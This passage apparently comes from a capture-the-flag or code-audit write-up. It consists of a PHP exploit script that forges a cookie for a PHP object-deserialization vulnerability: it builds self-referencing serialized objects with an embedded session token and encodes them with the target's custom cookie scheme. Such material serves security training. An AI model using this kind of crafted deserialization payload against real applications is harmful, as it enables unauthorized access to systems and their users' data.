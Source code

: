 1.  通过代码审计构造反序列化漏洞利用

exp.php
```
<?php
class debug {
	public $choose = "2aaaa";
	public $id = 2;
	public $username = "debuger";
	public $forbidden = NULL;
	public $access_token = "";
	public $ob = NULL;
	public $funny = NULL;
}
class session {
	public $access_token = '3ecReK&key';
}
function cookie_decode($str) {
	$data = urldecode($str);
	$data = substr($data, 1);
	$arr = explode('&', $data);
	$cipher = '';
	foreach($arr as $value) {
		$num = hexdec($value);
		$num = $num - 240;
		$cipher = $cipher.'%'.dechex($num);
	}
	$key = urldecode($cipher);
	$key = base64_decode($key);
	return $key;
}
function cookie_encode($str) {
	$key = base64_encode($str);
	$key = bin2hex($key);
	$arr = str_split($key, 2);
	$cipher = '';
	foreach($arr as $value) {
		$num = hexdec($value);
		$num = $num + 240;
		$cipher = $cipher.'&'.dechex($num);
	}
	return $cipher;
}
$obj = new debug();
$obj1 = new session();
$str1 = serialize($obj1);
$obj->forbidden = $obj;
$obj->ob = $obj;
$obj->funny = $str1;
$str = serialize($obj);
echo cookie_encode($str);
?>
```

